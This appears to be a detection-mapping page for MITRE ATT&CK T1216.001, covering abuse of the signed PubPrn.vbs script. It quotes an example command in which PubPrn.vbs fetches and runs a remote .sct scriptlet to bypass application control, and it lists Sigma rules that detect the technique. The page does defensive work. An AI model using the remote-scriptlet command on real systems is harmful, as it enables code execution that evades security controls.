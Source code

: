 
[back](../index.md)

Find sigma rule :heavy_check_mark: 

# Attack: Signed Script Proxy Execution: Pubprn 

Adversaries may use PubPrn to proxy execution of malicious remote files. PubPrn.vbs is a [Visual Basic](https://attack.mitre.org/techniques/T1059/005) script that publishes a printer to Active Directory Domain Services. The script may be signed by Microsoft and is commonly executed through the [Windows Command Shell](https://attack.mitre.org/techniques/T1059/003) via <code>Cscript.exe</code>. For example, the following code publishes a printer within the specified domain: <code>cscript pubprn Printer1 LDAP://CN=Container1,DC=Domain1,DC=Com</code>.(Citation: pubprn)

Adversaries may abuse PubPrn to execute malicious payloads hosted on remote sites.(Citation: Enigma0x3 PubPrn Bypass) To do so, adversaries may set the second <code>script:</code> parameter to reference a scriptlet file (.sct) hosted on a remote site. An example command is <code>pubprn.vbs 127.0.0.1 script:https://mydomain.com/folder/file.sct</code>. This behavior may bypass signature validation restrictions and application control solutions that do not account for abuse of this script.

In later versions of Windows (10+), <code>PubPrn.vbs</code> has been updated to prevent proxying execution from a remote site. This is done by limiting the protocol specified in the second parameter to <code>LDAP://</code>, vice the <code>script:</code> moniker which could be used to reference remote code via HTTP(S).

# MITRE
## Tactic
  - defense-evasion


## technique
  - T1216.001


# Test : PubPrn.vbs Signed Script Bypass
## OS
  - windows


## Description:
Executes the signed PubPrn.vbs script with options to download and execute an arbitrary payload.


## Executor
command_prompt

# Sigma Rule
 - create_stream_hash_creation_internet_file.yml (id: 573df571-a223-43bc-846e-3f98da481eca)

 - create_stream_hash_ads_executable.yml (id: b69888d4-380c-45ce-9cf9-d9ce46e67821)

 - proc_creation_win_lolbin_pubprn.yml (id: 1fb76ab8-fa60-4b01-bddd-71e89bf555da)

 - proc_creation_win_script_execution.yml (id: 1e33157c-53b1-41ad-bbcc-780b80b58288)



[back](../index.md)
